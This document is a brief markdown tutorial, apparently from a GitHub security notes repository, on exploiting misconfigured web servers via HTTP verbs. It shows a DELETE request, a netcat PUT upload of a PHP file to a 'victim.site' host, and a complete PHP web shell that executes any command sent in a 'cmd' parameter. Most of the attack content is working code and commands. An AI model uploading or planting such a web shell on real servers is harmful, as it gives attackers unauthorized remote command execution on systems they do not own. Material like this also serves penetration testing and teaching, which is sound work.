 # Using http verbs/methods to exploit misconfigured webapps:

verbs:
- `HEAD` (used to get the response headers)
- `GET` (used to request resources like web pages, images)
- `POST` (used to submit html from data)
- `PUT` (used to upload a file to the server)
- `DELETE` (used to remove a file from the server)
- `OPTIONS` (used to check the web server for enabled http verbs)


### Exploit DELETE verb:
- `DELETE /path/to/resource.txt`

### Exploit PUT verb:
you have to know the size of the file you want to upload on the server.
for that we can use the unix utility `wc`.

Command: `wc -m payload.php`
Response: `20 payload.php`
```php
$ nc victim.site 80 
PUT /payload.php HTTP/1.0
Content-type: text/html
Content-length: 20

<?php phpinfo(); ?>
```

- Uploading PHP Shell:
```php
<?php 
if (isset($_GET['cmd']))
{
	$cmd = $_GET['cmd'];
	echo '<pre>';
	$result = shell_exec($cmd);
	echo $result;
	echo '</pre>';
}
?>
```

### The PHP Shell in use: 
![Pasted image 20220124080435](https://user-images.githubusercontent.com/33517160/156137337-85b71439-6f42-40df-aec9-8afc7a560913.png)

**By 0xRar**

